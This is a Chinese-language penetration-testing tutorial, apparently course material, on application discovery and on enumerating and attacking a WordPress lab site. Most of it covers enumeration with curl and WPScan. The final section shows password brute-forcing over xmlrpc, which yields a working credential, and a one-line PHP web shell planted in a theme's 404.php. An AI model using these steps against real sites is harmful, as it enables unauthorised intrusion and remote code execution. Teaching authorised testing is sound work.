

继续浏览报告，接下来似乎是主网站 http://inlanefreight.local 。定制的 Web 应用程序始终值得测试，因为它们可能包含各种各样的漏洞。我也很想知道该网站是否运行着 WordPress、Joomla 或 Drupal 等流行的内容管理系统 (CMS)。下一个应用程序 http://support-dev.inlanefreight.local 很有意思，因为它似乎运行着[ osTicket ](https://osticket.com/)，而 osTicket 多年来一直饱受各种严重漏洞的困扰。支持工单系统尤其值得关注，因为我们或许能够登录并获取敏感信息。如果涉及社会工程攻击，我们或许能够与客户支持人员互动，甚至操纵系统注册一个公司域名的有效电子邮件地址，然后利用该地址访问其他服务。

最后一部分内容在 [IppSec](https://www.youtube.com/watch?v=gbs43E71mFM) 的 HTB 每周发布题库 “[Delivery](https://0xdf.gitlab.io/2021/05/22/htb-delivery.html)” 中进行了演示。这个题库值得深入研究，因为它展示了通过探索某些常用应用程序的内置功能可以实现哪些功能。我们将在本模块的后续部分更详细地介绍 osTicket。

在评估过程中，我会持续审阅报告，记录下感兴趣的主机，包括其 URL 和应用程序名称/版本，以备后用。此时务必记住，我们仍处于信息收集阶段，任何细节都可能决定评估的成败。我们不应草率行事，立即开始攻击主机，否则可能会陷入困境，并在报告后续部分遗漏关键信息。在外部渗透测试中，我预计会看到各种类型的应用程序，包括一些内容管理系统 (CMS)、Tomcat、Jenkins 和 Splunk 等应用程序、远程访问门户（例如远程桌面服务 (RDS)）、SSL VPN 端点、Outlook Web Access (OWA)、Office 365，以及一些边缘网络设备的登录页面等等。

实际情况可能因人而异，有时我们会遇到一些绝对不应该暴露的应用程序，例如我曾经遇到的一个带有文件上传按钮的单页应用程序，页面上显示“请仅上传 .zip 和 .tar.gz 文件”。当然，我当时并没有理会这个警告（因为这是客户授权的渗透测试），而是上传了一个测试用的 .aspx 文件。令我惊讶的是，没有任何客户端或后端验证，文件似乎成功上传了。通过快速的目录暴力破解，我找到了一个启用了目录列表功能的 /files 目录，我的 test.aspx 文件就在那里。之后，我上传了一个 .aspx Web Shell，成功进入了内部环境。这个例子表明，我们应该不放过任何蛛丝马迹，应用程序发现数据中可能蕴藏着巨大的宝藏。

在内部渗透测试期间，我们会看到很多相同的内容，但通常还会看到许多打印机登录页面（我们有时可以利用这些页面获取明文 LDAP 凭据）、ESXi 和 vCenter 登录门户、iLO 和 iDRAC 登录页面、大量的网络设备、物联网设备、IP 电话、内部代码库、SharePoint 和自定义内网门户、安全设备等等。

## 7. 继续前进

现在我们已经完成了应用程序发现方法论的学习，并建立了笔记结构，接下来让我们深入探讨一些我们会反复遇到的常见应用程序。请注意，本模块不可能涵盖我们会遇到的所有应用程序。我们的目标是重点介绍一些非常普遍的应用程序，并了解常见的漏洞、配置错误以及如何滥用其内置功能。

我可以保证，在你作为渗透测试员的职业生涯中，你至少会遇到其中的一些应用程序，甚至可能全部。探索这些应用程序的方法论和思维方式更为重要，我们将在本模块中逐步培养和提升这些能力，并在最后的技能评估中进行检验。许多测试人员拥有精湛的技术，但诸如完善且可重复的方法论、组织能力、注重细节、良好的沟通能力以及详尽的笔记/文档和报告等软技能，能够让我们脱颖而出，并帮助我们赢得雇主和客户的信任。

# 三.CMS

## 1. wordpress 发现和枚举

[WordPress ](https://wordpress.org/)于 2003 年发布，是一款开源的内容管理系统 (CMS)，用途广泛。它常用于托管博客和论坛。WordPress 具有高度可定制性和良好的搜索引擎优化 (SEO) 性能，因此深受企业用户的青睐。然而，其高度的可定制性和可扩展性也使其容易受到第三方主题和插件的攻击，从而导致安全漏洞。WordPress 使用 PHP 编写，通常运行在 Apache 服务器上，并以 MySQL 作为后端数据库。

假设我们在进行外部渗透测试时，遇到一家公司，其主网站托管在 WordPress 上。与其他许多应用程序一样，WordPress 也拥有一些独特的文件，可以用来识别该应用程序。此外，文件、文件夹结构、文件名以及每个 PHP 脚本的功能都可以用来发现 WordPress 的安装版本。在这个 Web 应用程序中，默认情况下，元数据会添加到网页的 HTML 源代码中，有时甚至已经包含了版本信息。因此，让我们来看看有哪些方法可以获取关于 WordPress 的更多详细信息。

### 1. 识别

快速识别 WordPress 网站的方法是浏览 `/robots.txt`文件。WordPress 安装中典型的 robots.txt 文件可能如下所示：

```txt
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

如果这里存在 `/wp-admin `和 `/wp-content `目录，那就足以表明我们正在处理 WordPress 相关的问题。通常情况下，尝试访问 `wp-admin `目录会将我们重定向到 `wp-login.php` 页面。这是 WordPress 实例后端的登录入口。



WordPress 将插件存储在 `wp-content/plugins `目录中。该文件夹有助于枚举存在漏洞的插件。主题存储在 `wp-content/themes` 目录中。这些文件应仔细枚举，因为它们可能导致远程代码执行 (RCE)。

标准 WordPress 安装中有五种类型的用户。

1. Administrator：该用户拥有网站的管理权限，包括添加和删除用户及帖子，以及编辑源代码。
2. Editor：编辑可以发布和管理帖子，包括其他用户的帖子。
3. Author：他们可以发布和管理自己的文章。
4. Contributor：这些用户可以撰写和管理自己的帖子，但不能发布帖子。
5. Subscriber：这些是普通用户，可以浏览帖子和编辑个人资料。

通常情况下，只要获得管理员权限，就足以在服务器上执行代码。编辑和作者可能拥有某些普通用户无法访问的易受攻击的插件的访问权限。

### 2.枚举主题和插件

另一种快速识别 WordPress 网站的方法是查看页面源代码。使用 cURL 查看页面并搜索 WordPress 可以帮助我们确认是否正在使用 WordPress，并获取版本号，我们应该记下来以备后用。我们可以使用多种手动和自动化方法来枚举 WordPress 网站。

```bash
$ curl -s http://blog.inlanefreight.local | grep WordPress

<meta name="generator" content="WordPress 5.8" /
```

浏览网站并仔细查看页面源代码，可以帮助我们了解网站使用的主题、已安装的插件，甚至如果文章中包含作者姓名，还可以获取用户名。我们应该花些时间手动浏览网站，查看每个页面的源代码，搜索 wp-content 目录、 themes 和 plugin 等关键词，并开始收集有用的数据点。

查看页面源代码，我们可以看到页面使用了[ Business Gravity 主题](https://wordpress.org/themes/business-gravity/)。我们可以进一步尝试获取主题版本号，并查找任何已知的影响该主题的漏洞。

```bash
$ curl -s http://blog.inlanefreight.local/ | grep themes

<link rel='stylesheet' id='bootstrap-css'  href='http://blog.inlanefreight.local/wp-content/themes/business-gravity/assets/vendors/bootstrap/css/bootstrap.min.css' type='text/css' media='all' />
```

接下来，我们来看看可以找到哪些插件:

```bash
$ curl -s http://blog.inlanefreight.local/ | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.8' id='subscriber-js-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.8' id='validation-engine-en-js'></script>
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.8' id='validation-engine-js'></script>
        <link rel='stylesheet' id='mm_frontend-css'  href='http://blog.inlanefreight.local/wp-content/plugins/mail-masta/lib/css/mm_frontend.css?ver=5.8' type='text/css' media='all' />
<script type='text/javascript' src='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/js/index.js?ver=5.4.2' id='contact-form-7-js'></script>

```

从上面的输出结果可以看出， Contact Form 7 和 mail-masta 插件已安装。下一步是枚举它们的版本。

浏览到 http://blog.inlanefreight.local/wp-content/plugins/mail-masta/ 目录显示目录列表已启用，并且存在 readme.txt 文件。这些文件通常有助于识别版本号。从 readme.txt 文件可以看出，插件版本为 1.0.0，该版本存在一个[本地文件包含漏洞](https://www.exploit-db.com/exploits/50226)，该漏洞已于 2021 年 8 月公布。

我们再深入调查一下。查看另一个页面的源代码，我们可以看到 wpDiscuz 插件已安装，版本似乎是 7.0.4。

```bash
$ curl -s http://blog.inlanefreight.local/?p=1 | grep plugins

<link rel='stylesheet' id='contact-form-7-css'  href='http://blog.inlanefreight.local/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=5.4.2' type='text/css' media='all' />
<link rel='stylesheet' id='wpdiscuz-frontend-css-css'  href='http://blog.inlanefreight.local/wp-content/plugins/wpdiscuz/themes/default/style.css?ver=7.0.4' type='text/css' media='all' />
```

快速搜索该插件版本，发现其存在一个 2021 年 6 月发布的[未经身份验证的远程代码执行漏洞](https://www.exploit-db.com/exploits/49967)。我们记下这一点，然后继续进行下一步。在这个阶段，重要的是不要操之过急，不要急于利用我们发现的第一个潜在漏洞，因为 WordPress 中还有许多其他潜在的漏洞和配置错误，我们不想错过。

### 3.枚举用户

我们也可以手动枚举用户。如前所述，WordPress 的默认登录页面位于 /wp-login.php 。

有效的用户名和无效的密码会导致显示以下消息：

但是，如果用户名无效，则会返回“未找到该用户”的错误信息。

这使得 WordPress 容易受到用户名枚举攻击，攻击者可以利用该攻击获取潜在用户名的列表。

让我们回顾一下。目前，我们已经收集到以下数据：

* 该网站似乎运行的是 WordPress 核心版本 5.8。
* 已安装的主题是 Business Gravity
* 正在使用的插件有：Contact Form 7、mail-masta、wpDiscuz
* wpDiscuz 版本似乎是 7.0.4，该版本存在未经身份验证的远程代码执行漏洞。
* mail-masta 版本似乎是 1.0.0，存在本地文件包含漏洞。
* WordPress 网站存在用户枚举漏洞，但已确认 admin 用户为有效用户。

让我们更进一步，通过对 WordPress 网站进行一些自动化枚举扫描来验证/补充我们的一些数据点。完成这一步后，我们应该掌握足够的信息来开始规划和实施攻击。

### 4.WPScan工具

[WPScan ](https://github.com/wpscanteam/wpscan)是一款自动化的 WordPress 扫描和枚举工具。它可以检测博客使用的各种主题和插件是否过时或存在安全漏洞。它默认安装在 Parrot OS 系统中，但也可以使用 gem 手动安装。

```bash
$ sudo gem install wpscan
```

WPScan 还能从外部来源获取漏洞信息。我们可以从 [WPVulnDB](https://wpvulndb.com/) 获取 API 令牌，WPScan 使用该令牌进行 PoC 扫描并生成报告。免费套餐每天最多允许 25 次请求。要使用 WPVulnDB 数据库，只需创建一个帐户，然后从用户页面复制 API 令牌。之后，可以使用 `--api-token parameter `将此令牌提供给 WPScan。

输入 wpscan -h 将打开帮助菜单。

`--enumerate `标志用于枚举 WordPress 应用程序的各种组件，例如插件、主题和用户。默认情况下，WPScan 会枚举存在漏洞的插件、主题、用户、媒体和备份。

但是，可以提供特定参数来将枚举范围限制在特定组件。例如，可以使用参数 `--enumerate ap` 枚举所有插件。
让我们使用 ` --enumerate` 标志对 WordPress 网站执行一次常规枚举扫描，并使用 `--api-token`标志传递来自 WPVulnDB 的 API 令牌。

```bash
$ sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>

<SNIP>

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Thu Sep 16 23:11:43 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.inlanefreight.local/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://blog.inlanefreight.local/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 5.8 identified (Insecure, released on 2021-07-20).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.inlanefreight.local/?feed=rss2, <generator>https://wordpress.org/?v=5.8</generator>
 |  - http://blog.inlanefreight.local/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.8</generator>
 |
 | [!] 3 vulnerabilities identified:
 |
 | [!] Title: WordPress 5.4 to 5.8 - Data Exposure via REST API
 |     Fixed in: 5.8.1
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/38dd7e87-9a22-48e2-bab1-dc79448ecdfb
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-39200
 |      - https://wordpress.org/news/2021/09/wordpress-5-8-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/ca4765c62c65acb732b574a6761bf5fd84595706
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-m9hc-7v5q-x8q5
 |
 | [!] Title: WordPress 5.4 to 5.8 - Authenticated XSS in Block Editor
 |     Fixed in: 5.8.1
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/5b754676-20f5-4478-8fd3-6bc383145811
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-39201
 |      - https://wordpress.org/news/2021/09/wordpress-5-8-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-wh69-25hr-h94v
 |
 | [!] Title: WordPress 5.4 to 5.8 -  Lodash Library Update
 |     Fixed in: 5.8.1
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/5d6789db-e320-494b-81bb-e678674f4199
 |      - https://wordpress.org/news/2021/09/wordpress-5-8-1-security-and-maintenance-release/
 |      - https://github.com/lodash/lodash/wiki/Changelog
 |      - https://github.com/WordPress/wordpress-develop/commit/fb7ecd92acef6c813c1fde6d9d24a21e02340689

[+] WordPress theme in use: transport-gravity
 | Location: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/
 | Latest Version: 1.0.1 (up to date)
 | Last Updated: 2020-08-02T00:00:00.000Z
 | Readme: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://blog.inlanefreight.local/wp-content/themes/transport-gravity/style.css
 | Style Name: Transport Gravity
 | Style URI: https://keonthemes.com/downloads/transport-gravity/
 | Description: Transport Gravity is an enhanced child theme of Business Gravity. Transport Gravity is made for tran...
 | Author: Keon Themes
 | Author URI: https://keonthemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blog.inlanefreight.local/wp-content/themes/transport-gravity/style.css, Match: 'Version: 1.0.1'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://blog.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)

<SNIP>

| [!] Title: Mail Masta 1.0 - Multiple SQL Injection
  
 <SNIP
 
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

<SNIP>

[i] User(s) Identified:

[+] by:
                                    admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

如上图所示，WPScan 使用多种被动和主动方法来确定版本和漏洞。默认线程数为 5 ，但可以使用 ` -t` 标志更改此值。

这次扫描帮助我们确认了一些通过手动枚举发现的信息（WordPress 核心版本 5.8 和目录列表已启用），表明我们识别出的主题并不完全正确（实际使用的是 Transport Gravity，它是 Business Gravity 的子主题），发现了另一个用户名（john），并且表明仅靠自动枚举往往不够全面（遗漏了 wpDiscuz 和 Contact Form 7 插件）。WPScan 提供有关已知漏洞的信息。报告输出还包含 PoC 的 URL，我们可以利用这些漏洞进行攻击。

本节中我们采用的方法，即结合手动和自动枚举，几乎可以应用于我们发现的任何应用程序。扫描器固然强大且非常有用，但它们无法取代人为的细致和好奇心。磨练我们的枚举技能，能够使我们脱颖而出，成为优秀的渗透测试人员。

### 5.继续前进

根据我们手动收集和使用 WPScan 收集的数据，我们现在知道以下信息：

* 该网站运行的是 WordPress 核心版本 5.8，该版本确实存在一些漏洞，但目前看来这些漏洞并不值得关注。
* 已安装的主题是 Transport Gravity
* 正在使用的插件有：Contact Form 7、mail-masta、wpDiscuz
* wpDiscuz 版本为 7.0.4，存在未经身份验证的远程代码执行漏洞。
* mail-masta 版本为 1.0.0，存在本地文件包含漏洞和 SQL 注入漏洞。
* WordPress 网站存在用户枚举漏洞，经确认，用户 admin 和 john 均为有效用户
* 本网站启用了目录列表功能，这可能会导致敏感数据泄露。
* XML-RPC 已启用，可利用 WPScan、 Metasploit 等工具对登录页面执行密码暴力破解攻击。

记下这些信息后，让我们开始有趣的部分：攻击 WordPress！

## 2.攻击wordpress

我们已确认该公司网站运行在 WordPress 平台上，并已列出其版本和已安装的插件。现在让我们寻找攻击路径，尝试获取内部网络的访问权限。

我们可以利用多种方式滥用内置功能，对 WordPress 站点实施攻击。本节将介绍针对 wp-login.php 页面的登录暴力破解，以及通过主题编辑器实现远程代码执行。这两种攻击手段是相互关联、层层递进的：我们首先需要获取管理员级别用户的有效凭据，登录 WordPress 后台，才能编辑主题。

### 2.1 登录暴力破解

WPScan 可用于暴力破解用户名与密码。
上一节的扫描结果显示，该网站注册了两名用户（admin 和 john）。
该工具支持两种登录暴力破解方式：**xmlrpc** 与 **wp-login**。

- **wp-login 方式**：会针对 WordPress 标准登录页面进行暴力破解。
- **xmlrpc 方式**：利用 WordPress API，通过 `/xmlrpc.php` 路径发起登录尝试。

**xmlrpc 方式更值得选用，因为它速度更快。**

```bash
$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1                                                                                 
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23

```

使用 --password-attack 参数可指定攻击类型；
-U 用于传入用户名列表或用户名字典文件，
-P 同理用于指定密码字典；
-t 可调整线程数量。
WPScan 成功爆破出一组有效凭据：john:firebird1。

### 2.2 远程代码执行

拥有 WordPress 管理员权限后，我们可以修改 PHP 源代码来执行系统命令。使用 john 用户的凭据登录 WordPress，这将引导我们进入管理面板。点击侧边栏的 Appearance ，然后选择“主题编辑器”。此页面允许我们直接编辑 PHP 源代码。可以选择一个非活动主题，以避免破坏主主题。我们已经知道当前活动主题是 Transport Gravity。您可以选择其他主题，例如 Twenty Nineteen。

选择主题后，点击 Select ，我们就可以编辑不常用的页面（例如 404.php 来添加 web shell。

```php
system($_GET[0]);
```

